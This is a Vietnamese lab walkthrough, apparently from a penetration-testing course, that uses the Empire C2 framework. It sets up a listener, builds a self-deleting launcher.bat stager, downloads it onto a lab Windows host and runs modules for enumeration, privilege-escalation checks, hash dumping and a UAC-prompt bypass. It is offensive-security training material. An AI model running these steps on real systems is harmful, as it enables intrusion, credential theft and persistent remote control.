 Name         HTTP[S]


┌Record Options────┬─────────────────────────────────────┬──────────┬─────────────────────────────────────┐
│ Name             │ Value                               │ Required │ Description                         │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ BindIP           │ 0.0.0.0                             │ True     │ The IP to bind to on the control    │
│                  │                                     │          │ server.                             │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ CertPath         │                                     │ False    │ Certificate path for https          │
│                  │                                     │          │ listeners.                          │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Cookie           │ vGuLdYhUK                           │ False    │ Custom Cookie Name                  │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ DefaultDelay     │ 5                                   │ True     │ Agent delay/reach back interval (in │
│                  │                                     │          │ seconds).                           │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ DefaultJitter    │ 0.0                                 │ True     │ Jitter in agent reachback interval  │
│                  │                                     │          │ (0.0-1.0).                          │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ DefaultLostLimit │ 60                                  │ True     │ Number of missed checkins before    │
│                  │                                     │          │ exiting                             │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ DefaultProfile   │ /admin/get.php,/news.php,/login/pro │ True     │ Default communication profile for   │
│                  │ cess.php|Mozilla/5.0 (Windows NT    │          │ the agent.                          │
│                  │ 6.1; WOW64; Trident/7.0; rv:11.0)   │          │                                     │
│                  │ like Gecko                          │          │                                     │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Headers          │ Server:Microsoft-IIS/7.5            │ True     │ Headers for the control server.     │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Host             │ http://10.130.10.128                │ True     │ Hostname/IP for staging.            │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ JA3_Evasion      │ False                               │ True     │ Randomly generate a JA3/S signature │
│                  │                                     │          │ using TLS ciphers.                  │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ KillDate         │                                     │ False    │ Date for the listener to exit       │
│                  │                                     │          │ (MM/dd/yyyy).                       │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Launcher         │ powershell -noP -sta -w 1 -enc      │ True     │ Launcher string.                    │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Name             │ http                                │ True     │ Name for the listener.              │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Port             │                                     │ True     │ Port for the listener.              │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Proxy            │ default                             │ False    │ Proxy to use for request (default,  │
│                  │                                     │          │ none, or other).                    │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ ProxyCreds       │ default                             │ False    │ Proxy credentials                   │
│                  │                                     │          │ ([domain\]username:password) to use │
│                  │                                     │          │ for request (default, none, or      │
│                  │                                     │          │ other).                             │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ SlackURL         │                                     │ False    │ Your Slack Incoming Webhook URL to  │
│                  │                                     │          │ communicate with your Slack         │
│                  │                                     │          │ instance.                           │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ StagerURI        │                                     │ False    │ URI for the stager. Must use        │
│                  │                                     │          │ /download/. Example:                │
│                  │                                     │          │ /download/stager.php                │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ StagingKey       │ Y&+L*#Jl|s<r)dqhcHvx4kM@]ODi0K(b    │ True     │ Staging key for initial agent       │
│                  │                                     │          │ negotiation.                        │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ UserAgent        │ default                             │ False    │ User-agent string to use for the    │
│                  │                                     │          │ staging request (default, none, or  │
│                  │                                     │          │ other).                             │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ WorkingHours     │                                     │ False    │ Hours for the agent to operate      │
│                  │                                     │          │ (09:00-17:00).                      │
└──────────────────┴─────────────────────────────────────┴──────────┴─────────────────────────────────────┘

(Empire: uselistener/http) >
```

Hãy cùng xem xét các tùy chọn mà chúng ta có thể sử dụng với trình lắng nghe này.

Hãy lưu ý những lựa chọn thú vị sau đây:

- KillDate - thời điểm sau đó trình nghe sẽ ngừng hoạt động.

- StagingKey - Một StagingKey giả ngẫu nhiên dùng để mã hóa thông tin liên lạc giữa tác nhân và người nghe.

- Giờ làm việc - để giới hạn thời gian mà các nhân viên sẽ chủ động gọi lại cho người nghe.

- DefaultDelay - các tác nhân hoạt động bất đồng bộ và DefaultDelay quy định tần suất tác nhân sẽ kiểm tra trạng thái.

Bạn cũng có thể thấy rằng đây `DefaultDelay` là `5` giây, có nghĩa là các tác nhân sẽ gửi yêu cầu lấy thêm lệnh về trình lắng nghe cứ sau mỗi năm giây.

Cuối cùng, xin lưu ý rằng Host được thiết lập mặc định là địa chỉ IP Linux của bạn và trình lắng nghe sẽ sử dụng cổng TCP 80.

Hãy giảm thời gian giữa các lần gọi lại từ tác nhân của chúng ta, từ mặc định là năm giây xuống còn một giây, vì điều này sẽ giúp tác nhân phản hồi nhanh hơn trong bài thực hành này. Ngoài ra, máy chủ của chúng ta đã chạy máy chủ web, vì vậy hãy sử dụng cổng 9999 cho bài thực hành này.

Vui lòng thiết lập các tùy chọn sau:


- `DefaultDelay` đến 1.

- `Port` đến 9999.

- `Host` đến http://LINUX_ETH0_ADDRESS :9999.

```bash
set DefaultDelay 1
set Port 9999
set Host http://10.130.10.128:9999
```



Sử dụng công cụ `options` này để xác minh cài đặt của chúng tôi.

```bash
options
```

```bash
(Empire: uselistener/http) > options

┌Record Options────┬─────────────────────────────────────┬──────────┬─────────────────────────────────────┐
│ Name             │ Value                               │ Required │ Description                         │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ BindIP           │ 0.0.0.0                             │ True     │ The IP to bind to on the control    │
│                  │                                     │          │ server.                             │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ CertPath         │                                     │ False    │ Certificate path for https          │
│                  │                                     │          │ listeners.                          │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Cookie           │ vGuLdYhUK                           │ False    │ Custom Cookie Name                  │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ DefaultDelay     │ 1                                   │ True     │ Agent delay/reach back interval (in │
│                  │                                     │          │ seconds).                           │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ DefaultJitter    │ 0.0                                 │ True     │ Jitter in agent reachback interval  │
│                  │                                     │          │ (0.0-1.0).                          │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ DefaultLostLimit │ 60                                  │ True     │ Number of missed checkins before    │
│                  │                                     │          │ exiting                             │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ DefaultProfile   │ /admin/get.php,/news.php,/login/pro │ True     │ Default communication profile for   │
│                  │ cess.php|Mozilla/5.0 (Windows NT    │          │ the agent.                          │
│                  │ 6.1; WOW64; Trident/7.0; rv:11.0)   │          │                                     │
│                  │ like Gecko                          │          │                                     │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Headers          │ Server:Microsoft-IIS/7.5            │ True     │ Headers for the control server.     │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Host             │ http://10.130.10.128:9999           │ True     │ Hostname/IP for staging.            │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ JA3_Evasion      │ False                               │ True     │ Randomly generate a JA3/S signature │
│                  │                                     │          │ using TLS ciphers.                  │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ KillDate         │                                     │ False    │ Date for the listener to exit       │
│                  │                                     │          │ (MM/dd/yyyy).                       │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Launcher         │ powershell -noP -sta -w 1 -enc      │ True     │ Launcher string.                    │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Name             │ http                                │ True     │ Name for the listener.              │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Port             │ 9999                                │ True     │ Port for the listener.              │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ Proxy            │ default                             │ False    │ Proxy to use for request (default,  │
│                  │                                     │          │ none, or other).                    │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ ProxyCreds       │ default                             │ False    │ Proxy credentials                   │
│                  │                                     │          │ ([domain\]username:password) to use │
│                  │                                     │          │ for request (default, none, or      │
│                  │                                     │          │ other).                             │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ SlackURL         │                                     │ False    │ Your Slack Incoming Webhook URL to  │
│                  │                                     │          │ communicate with your Slack         │
│                  │                                     │          │ instance.                           │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ StagerURI        │                                     │ False    │ URI for the stager. Must use        │
│                  │                                     │          │ /download/. Example:                │
│                  │                                     │          │ /download/stager.php                │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ StagingKey       │ Y&+L*#Jl|s<r)dqhcHvx4kM@]ODi0K(b    │ True     │ Staging key for initial agent       │
│                  │                                     │          │ negotiation.                        │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ UserAgent        │ default                             │ False    │ User-agent string to use for the    │
│                  │                                     │          │ staging request (default, none, or  │
│                  │                                     │          │ other).                             │
├──────────────────┼─────────────────────────────────────┼──────────┼─────────────────────────────────────┤
│ WorkingHours     │                                     │ False    │ Hours for the agent to operate      │
│                  │                                     │          │ (09:00-17:00).                      │
└──────────────────┴─────────────────────────────────────┴──────────┴─────────────────────────────────────┘

(Empire: uselistener/http) >
```

Chúng ta sẽ sử dụng lệnh `execute` này để khởi động trình lắng nghe của mình:

```bash
execute
```



Giờ chúng ta có thể kiểm tra trình lắng nghe bằng cách chạy lệnh `listeners`:



### 3. Khai thác một agent

Bây giờ chúng ta cần tạo và triển khai một tác nhân, điều này được thực hiện bằng lệnh `usestager`. Để xem các loại trình cài đặt khác nhau mà chúng ta có sẵn để tải tác nhân lên máy nạn nhân, hãy gõ usestager (và dấu cách), sau đó sử dụng các phím mũi tên để xem các trình cài đặt có sẵn.

```bash
usestager
```



Kết quả đầy đủ:

```bash
(Empire: listeners) > usestager
                                 windows/csharp_exe
                                 windows/wmic
                                 windows/ms16-051
                                 windows/launcher_bat
                                 windows/macroless_msword
                                 windows/backdoorLnkMacro
                                 windows/teensy
                                 windows/launcher_sct
                                 windows/bunny
                                 windows/launcher_lnk
                                 windows/nim
                                 windows/dll
                                 windows/launcher_xml
                                 windows/launcher_vbs
                                 windows/hta
                                 windows/shellcode
                                 windows/reverseshell
                                 windows/macro
                                 windows/ducky
                                 windows/cmd_exec
                                 multi/war
                                 multi/bash
                                 multi/pyinstaller
                                 multi/macro
                                 multi/launcher
                                 osx/pkg
                                 osx/teensy
                                 osx/safari_launcher
                                 osx/application
                                 osx/macho
                                 osx/shellcode
                                 osx/dylib
                                 osx/dylib
                                 osx/jar
                                 osx/applescript
                                 osx/macro
                                 osx/launcher
                                 osx/ducky
```

Trong bài thực hành này, chúng ta hãy tạo một trình soạn thảo chạy tác nhân thông qua PowerShell từ một tệp .bat của Windows và sau đó xóa tệp .bat đó, một trong những loại tác nhân hữu ích và đáng tin cậy nhất được Empire hỗ trợ.

Chọn đối tượng `windows/launcher_bat` cần thiết lập bằng lệnh `usestager`.

```bash
usestager windows/launcher_bat
```



Hãy cùng xem cấu hình mặc định của trình chuẩn bị sẽ tải tác nhân:

```bash
options
```



Lưu ý rằng tác nhân có khả năng xác thực với máy chủ proxy thông qua biến ProxyCreds.

Trong bài thực hành này, chúng ta sẽ giữ nguyên các thiết lập mặc định hợp lý và hữu ích cho trình soạn thảo.

Chúng ta cần cho trình soạn thảo biết nó sẽ gọi lại trình lắng nghe nào (hiện tại chỉ có một trình lắng nghe đang chạy):

```bash
set Listener http
```



Hãy tạo tệp stager của chúng ta:

```bash
generate
```



Tiếp theo, tại một cửa sổ dòng lệnh Linux riêng biệt, chúng ta hãy chuyển sang` /opt/empire/empire/client/generated-stagers/` và chạy tệp stager thông qua mô-đun `http.server` Python, lắng nghe trên cổng TCP mặc định là 8000.

Tạo một máy chủ web Python để phục vụ trang web vừa tạo của bạn `/opt/empire/empire/client/generated-stagers/launcher.bat`:

```bash
cd /opt/empire/empire/client/generated-stagers/
python3 -m http.server
```



### 4. Triển khai trình dàn dựng

Để triển khai trình biên dịch thử nghiệm trên Windows, chúng ta hãy sử dụng PowerShell như một trình duyệt dòng lệnh để tải xuống một tập tin.

Nhấp vào biểu tượng PowerShell trên màn hình nền (không phải liên kết có quyền quản trị).

Đầu tiên, hãy khởi chạy PowerShell mà không cần quyền quản trị (bằng cách vào menu Windows, gõ lệnh `PowerShell` và nhấn Enter).

Bây giờ, từ PowerShell, hãy chuyển đến thư mục Desktop của bạn:

```bash
cd Desktop
```



Sau đó chạy lệnh `wget` cmdlet để tải xuống tệp trình chuẩn bị tác nhân.

```bash
wget http://10.130.10.128:8000/launcher.bat -OutFile launcher.bat
```

Để đảm bảo tệp stager của bạn đã được tải lên chính xác, hãy chạy `ls` lệnh để kiểm tra kích thước của nó:

```bash
ls launcher.bat
```



Tệp tin phải có độ dài khác 0 byte. Tệp tin có độ dài xấp xỉ 287 byte.

Hãy cùng xem nhanh tệp tin của chúng ta bằng cách sử dụng `Get-Content`.

```bash
Get-Content launcher.bat
```



Cuối cùng, bạn sẽ thấy tệp launcher.bat trên màn hình Desktop của máy tính Windows.


Tiếp theo, nhấp đúp vào biểu tượng `launcher.bat` trên máy tính của bạn Desktop. Thao tác này sẽ chạy trình biên dịch để tải tác nhân lên máy tính Windows của bạn. Sau khi tác nhân được tải, tệp launcher.bat sẽ biến mất, vì đây là tệp độc hại tự xóa.

Tiếp theo, trên máy Linux của bạn, trong cửa sổ terminal của Empire, bạn sẽ thấy một dấu hiệu cho biết trình lắng nghe đã nhận được thông tin liên lạc từ tác nhân của bạn, với thông báo "New agent" theo sau là một tên tác nhân được tạo ngẫu nhiên.



### 5. Agent hoạt động

Bây giờ chúng ta hãy xem xét các tác nhân đang hoạt động hiện có:

```bash
agents
```



Bạn sẽ thấy tên của một tác nhân được liệt kê ở đó. Hãy cùng xem danh sách các lệnh của tác nhân.

```bash
help
```




Tên ngẫu nhiên giả không tiện lắm, vậy nên chúng ta hãy `rename` đặt tên cho phiên này. Hãy gọi tác nhân đầu tiên là `Agent1`. Sau đó liệt kê các tác nhân của bạn. Lưu ý, bạn phải chạy lệnh `list` này, nếu không bạn sẽ không thể tương tác với tác nhân bằng tên mới (đây là một lỗi).

```bash
rename 4A179ENU agent1
list
```



Để sử dụng một tác nhân, chúng ta sẽ dùng lệnh `interact`. Hãy chắc chắn rằng bạn đã chạy lệnh list ở bước trước, nếu không bạn sẽ không thể tương tác với tác nhân mới của mình bằng tên mới.

```bash
interact agent1
```



Bây giờ chúng ta hãy xem lại danh sách lệnh của mình:

```bash
help
```

```bash
(Empire: agent1) > help

┌Help Options────┬─────────────────────────────────────┬───────────────────────────────┐
│ Name           │ Description                         │ Usage                         │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ display        │ Display an agent property           │ display <property_name>       │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ download       │ Tasks an the specified agent to     │ download <file_name>          │
│                │ download a file.                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ help           │ Display the help menu for the       │ help                          │
│                │ current menu                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ history        │ Display last number of task results │ history [<number_tasks>]      │
│                │ received.                           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ info           │ Display agent info.                 │ info                          │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ killdate       │ Set an agent's killdate             │ killdate <kill_date>          │
│                │ (01/01/2020)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ proxy          │ Proxy management menu for           │ proxy                         │
│                │ configuring agent proxies           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_command │ "Execute a function in the          │ shell_command <script_cmd>    │
│                │ currently imported PowerShell       │                               │
│                │ script."                            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_import  │ Uploads a PowerShell script to the  │ script_import                 │
│                │ server and runs it in memory on the │ <local_script_location>       │
│                │ agent. Use '-p' for a file          │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shell          │ Tasks an the specified agent to     │ shell <shell_cmd>             │
│                │ execute a shell command.            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sleep          │ Tasks an the specified agent to     │ sleep <delay> <jitter>        │
│                │ update delay (s) and jitter (0.0 -  │                               │
│                │ 1.0)                                │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ update_comms   │ Update the listener for an agent.   │ update_comms <listener_name>  │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ upload         │ Tasks an the specified agent to     │ upload <local_file_directory> │
│                │ upload a file. Use '-p' for a file  │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ view           │ View specific task and result       │ view <task_id>                │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc            │ Launch a VNC server on the agent    │ vnc                           │
│                │ and spawn a VNC client              │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc_client     │ Launch a VNC client to a remote     │ vnc_client <address> <port>   │
│                │ server                              │ <password>                    │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ workinghours   │ Set an agent's working hours        │ workinghours <working_hours>  │
│                │ (9:00-17:00)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ whoami         │ Tasks an agent to run the shell     │ whoami                        │
│                │ command 'whoami'                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ ps             │ Tasks an agent to run the shell     │ ps                            │
│                │ command 'ps'                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sc             │ Tasks the agent to run module       │ sc                            │
│                │ powershell/collection/screenshot.   │                               │
│                │ Default parameters include: Ratio:  │                               │
│                │ 80                                  │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ keylog         │ Tasks the agent to run module       │ keylog                        │
│                │ powershell/collection/keylogger.    │                               │
│                │ Default parameters include: Sleep:  │                               │
│                │ 1                                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sherlock       │ Tasks the agent to run module       │ sherlock                      │
│                │ powershell/privesc/sherlock.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ mimikatz       │ Tasks the agent to run module power │ mimikatz                      │
│                │ shell/credentials/mimikatz/logonpas │                               │
│                │ swords.                             │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ psinject       │ Tasks the agent to run module       │ psinject <Listener> <ProcId>  │
│                │ powershell/management/psinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ revtoself      │ Tasks the agent to run module       │ revtoself                     │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ RevToSelf: True                     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shinject       │ Tasks the agent to run module       │ shinject <Listener> <ProcId>  │
│                │ powershell/management/shinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ spawn          │ Tasks the agent to run module       │ spawn <Listener>              │
│                │ powershell/management/spawn.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ steal_token    │ Tasks the agent to run module       │ steal_token <ProcessID>       │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ ImpersonateUser: True               │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ bypassuac      │ Tasks the agent to run module power │ bypassuac <Listener>          │
│                │ shell/privesc/bypassuac_eventvwr.   │                               │
└────────────────┴─────────────────────────────────────┴───────────────────────────────┘
```

Ở đây chúng ta có thể thấy các lệnh như `download`, `killdate`, và `shell`. Ngoài ra, để xem các thiết lập liên quan đến tác nhân hiện tại, chúng ta có thể chạy lệnh `info`. Hãy cùng làm điều đó:

```bash
info
```

```bash
(Empire: agent1) > info

┌Agent Options─────┬───────────────────────────────────────────────┐
│ ID               │ 1                                             │
├──────────────────┼───────────────────────────────────────────────┤
│ architecture     │ AMD64                                         │
├──────────────────┼───────────────────────────────────────────────┤
│ checkin_time     │ 2026-04-01T01:27:29+00:00                     │
├──────────────────┼───────────────────────────────────────────────┤
│ children         │                                               │
├──────────────────┼───────────────────────────────────────────────┤
│ delay            │ 1                                             │
├──────────────────┼───────────────────────────────────────────────┤
│ external_ip      │ 10.130.10.25                                  │
├──────────────────┼───────────────────────────────────────────────┤
│ functions        │                                               │
├──────────────────┼───────────────────────────────────────────────┤
│ high_integrity   │ 0                                             │
├──────────────────┼───────────────────────────────────────────────┤
│ hostname         │ SEC560STUDENT                                 │
├──────────────────┼───────────────────────────────────────────────┤
│ internal_ip      │ 10.130.10.25                                  │
├──────────────────┼───────────────────────────────────────────────┤
│ jitter           │ 0.0                                           │
├──────────────────┼───────────────────────────────────────────────┤
│ kill_date        │                                               │
├──────────────────┼───────────────────────────────────────────────┤
│ language         │ powershell                                    │
├──────────────────┼───────────────────────────────────────────────┤
│ language_version │ 5                                             │
├──────────────────┼───────────────────────────────────────────────┤
│ lastseen_time    │ 2026-04-01T01:33:41+00:00                     │
├──────────────────┼───────────────────────────────────────────────┤
│ listener         │ http                                          │
├──────────────────┼───────────────────────────────────────────────┤
│ lost_limit       │ 60                                            │
├──────────────────┼───────────────────────────────────────────────┤
│ name             │ agent1                                        │
├──────────────────┼───────────────────────────────────────────────┤
│ nonce            │ 6951096813542968                              │
├──────────────────┼───────────────────────────────────────────────┤
│ notes            │                                               │
├──────────────────┼───────────────────────────────────────────────┤
│ os_details       │ Microsoft Windows 10 Enterprise               │
├──────────────────┼───────────────────────────────────────────────┤
│ parent           │                                               │
├──────────────────┼───────────────────────────────────────────────┤
│ process_id       │ 1916                                          │
├──────────────────┼───────────────────────────────────────────────┤
│ process_name     │ powershell                                    │
├──────────────────┼───────────────────────────────────────────────┤
│ profile          │ /admin/get.php,/news.php,/login/process.php|M │
│                  │ ozilla/5.0 (Windows NT 6.1; WOW64;            │
│                  │ Trident/7.0; rv:11.0) like Gecko              │
├──────────────────┼───────────────────────────────────────────────┤
│ proxy            │                                               │
├──────────────────┼───────────────────────────────────────────────┤
│ servers          │                                               │
├──────────────────┼───────────────────────────────────────────────┤
│ session_id       │ 4A179ENU                                      │
├──────────────────┼───────────────────────────────────────────────┤
│ session_key      │ PB._Dh;|g20Gr<q81N^b]oE6s@x[\H&Y              │
├──────────────────┼───────────────────────────────────────────────┤
│ stale            │ False                                         │
├──────────────────┼───────────────────────────────────────────────┤
│ username         │ SEC560STUDENT\sec560                          │
├──────────────────┼───────────────────────────────────────────────┤
│ working_hours    │                                               │
└──────────────────┴───────────────────────────────────────────────┘

(Empire: agent1) >
```

Tại đây bạn có thể thấy thông tin quan trọng về tác nhân, bao gồm cả địa chỉ IP `process_name`, thời gian đăng nhập lần cuối và nhiều thông tin khác. Để kiểm tra xem tác nhân của chúng ta có đang hoạt động và liên lạc lại với trình lắng nghe mỗi giây hay không, hãy chạy lệnh `info` hai lần và ghi lại sự khác biệt về thời gian dựa trên giá trị `lastseen_time`:

### 6. Mô đun

Giờ chúng ta đã triển khai được một tác nhân và nó đang giao tiếp với trình lắng nghe, hãy cùng xem xét các mô-đun có sẵn để thực thi trên tác nhân đó:

```bash
usemodule
```



Giờ đây bạn sẽ thấy toàn bộ bộ sưu tập hơn 100 mô-đun khác nhau. Lưu ý rằng chúng được phân loại thành nhiều nhóm khác nhau, bao gồm:

- `code_execution`: Các mô-đun này cho phép bạn chạy mã, bao gồm cả các payload của Metasploit, trên máy chủ mục tiêu..

- `collection`:  Các mô-đun này cho phép bạn thu thập thông tin từ máy mục tiêu.

- `credentials`: Các mô-đun này cho phép bạn đánh cắp tên người dùng, mã băm và mật khẩu từ mục tiêu.

- `exploitation`: Các mô-đun này cho phép bạn khai thác thêm các mục tiêu khác.

- `lateral_movement`: Các mô-đun này cho phép bạn xoay trục sang các máy mục tiêu khác.

- `management`: Các mô-đun này liên quan đến các chức năng quản trị hệ thống trên thiết bị mục tiêu.

- `persistence`:  Các mô-đun này sẽ giúp tác nhân của bạn tiếp tục hoạt động ngay cả khi người dùng đăng xuất hoặc khởi động lại máy.

- `privesc`: Các mô-đun này cung cấp các lỗ hổng leo thang đặc quyền.

- `recon`: Đây là các mô-đun trinh sát.

- `situational_awareness`: Các mô-đun này thu thập thông tin từ môi trường mục tiêu, bao gồm máy quét và các công cụ liên quan.

- `trollsploit`: Các mô-đun này cho phép bạn quấy rối người dùng đang ngồi trước máy tính của nạn nhân, bao gồm phát âm thanh và hiển thị các hộp thoại.

Bạn cũng sẽ thấy một tiền tố cho biết cách thức thực thi của tệp tin. `- csharp` (C#) `- python` `- powershell`.

Hãy cùng thử nghiệm với một số mô-đun hữu ích nhất trong số này.

Hãy chạy một mô-đun có tên là `usemodule powershell/situational_awareness/host/winenum`. Chúng ta sẽ bắt đầu bằng cách chọn nó thông qua lệnh `usemodule`:

```bash
usemodule powershell/situational_awareness/host/winenum
```



Lưu ý rằng Empire tự động thiết lập `Agent` cài đặt thành `agent2`.

Mô-đun này thu thập thông tin hữu ích từ máy mục tiêu, bao gồm thông tin về phần mềm và các tập tin trên máy.

Bây giờ chúng ta sẽ chạy mô-đun `winenum`:



Lưu ý rằng khi chúng ta chạy một mô-đun, Empire sẽ tạo một tác vụ trên máy đích và chạy tác vụ đó trong nền. Nếu bạn nhấn Enter, dấu nhắc lệnh sẽ hiện lại. Tác vụ được gán một ID.

Hãy để công việc chạy khoảng 30 giây, sau đó kiểm tra kết quả. Để làm điều này, chúng ta cần sử dụng lệnh `view`. Trong ví dụ trên, ID là 1, nhưng số của bạn có thể khác. Sử dụng ID này để xem kết quả của tác vụ/công việc.

```bash
view 1
```



Hãy xem qua kết quả đầu ra. Tác vụ sẽ tiếp tục chạy. Để xem thêm kết quả đầu ra từ tác vụ, hãy chạy viewlại lệnh.

### 7. Tìm kiếm sự leo thang đặc quyền

Tiếp theo, hãy xem liệu có bất kỳ cơ hội leo thang đặc quyền nào trên mục tiêu hay không. Các mô-đun PowerUp có rất nhiều phương pháp leo thang đặc quyền thông qua PowerShell. Hãy tìm kiếm các mô-đun đó:



Chúng ta có thể thấy rằng PowerUp có một tính năng sẽ chạy tất cả các kiểm tra về leo thang đặc quyền `powershell/privesc/powerup/allchecks`. Hãy chọn tính năng đó và chạy nó:

```bash
usemodule powershell/privesc/powerup/allchecks
```



```bash
execute
```



Để xem kết quả của tác vụ, chúng ta cần sử dụng lệnh `view` với ID tác vụ đã nêu ở trên.







Trong kết quả đầu ra, bạn sẽ thấy thông báo:

```bash
[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.
```

Ngoài ra, hãy chú ý đến các đường dẫn dịch vụ không được trích dẫn. Chúng ta sẽ thảo luận về cách khai thác điều này sau trong khóa học.

Trước khi nâng cao quyền hạn, hãy xem xét những hạn chế mà chúng ta gặp phải khi không có đầy đủ quyền quản trị trong tác nhân của mình. Để làm điều đó, hãy thử trích xuất các mã băm từ mục tiêu từ tác nhân không được nâng cao quyền. Chúng ta sẽ sử dụng mô-đun `powerdump`, thuộc danh mục thông tin xác thực và ban đầu được bao gồm trong công cụ Posh-SecMod:

```bash
usemodule powershell/credentials/powerdump
```



Hãy thử chạy nó xem sao:

```bash
execute
```



### 8. Bypass UAC

UAC là viết tắt của User Account Control trên Windows. Nó là cơ chế bảo mật giúp:

- Ngăn chương trình tự ý chạy với quyền quản trị.

- Yêu cầu xác nhận khi có thao tác nhạy cảm.

- Giảm nguy cơ malware âm thầm chiếm quyền admin.

Tiếp theo, chúng ta sẽ cố gắng vượt qua UAC để có được quyền truy cập cao hơn cần thiết để trích xuất các mã băm.

Đầu tiên, hãy thoát khỏi ngữ cảnh của `powerdump`. Điều đó sẽ đưa bạn trở lại ngữ cảnh của `agent1`:

```bash
back
```



Bây giờ chúng ta sẽ chạy một mô-đun tấn công có tên gọi `privesc/ask` đơn giản là hiển thị cửa sổ UAC, yêu cầu người dùng đã đăng nhập vào Windows cho phép thực thi một chương trình. Mặc dù điều đó có thể cảnh báo một người dùng cẩn thận, nhưng hầu hết người dùng sẽ chỉ nhấp vào Có . Mặc dù có những lỗ hổng khác để vượt qua UAC, nhưng Microsoft thường xuyên vá lỗi chúng. Nhưng một cú nhấp chuột đơn giản vào Có của người dùng hoạt động rất hiệu quả, ngay cả trên một máy tính Windows đã được vá lỗi đầy đủ. Để sử dụng mô-đun `privesc/ask`, vui lòng nhập:

```bash
usemodule powershell/privesc/ask
```

```bash
(Empire: agent2) > usemodule powershell/privesc/ask
[*] Set Agent to agent2

